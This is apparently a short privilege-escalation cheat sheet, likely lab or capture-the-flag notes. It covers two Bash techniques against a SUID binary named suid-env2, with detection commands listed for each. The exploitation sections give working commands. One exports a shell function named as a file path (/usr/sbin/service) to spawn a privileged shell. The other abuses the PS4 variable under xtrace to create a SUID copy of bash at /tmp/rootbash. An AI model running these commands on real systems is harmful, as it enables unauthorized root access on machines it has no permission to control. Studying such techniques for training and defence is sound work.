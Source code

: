 # Abusing Shell Features (#1)
#### Detection
In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.
```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
strings /usr/local/bin/suid-env2
strace /usr/local/bin/suid-env2
bash --version
```

#### Exploitation 
```bash
# Create a bash function to impersonate the actual executable PATH
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service

# Execute the vulnerable program
/usr/local/bin/suid-env2
```

# Abusing Shell Features (#2)
#### Detection
Note: This will not work on Bash versions 4.4 and above.
When in debugging mode, Bash uses the environment variable **PS4** to display an extra prompt for debugging statements.

#### Exploitation
```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
/tmp/rootbash -p
```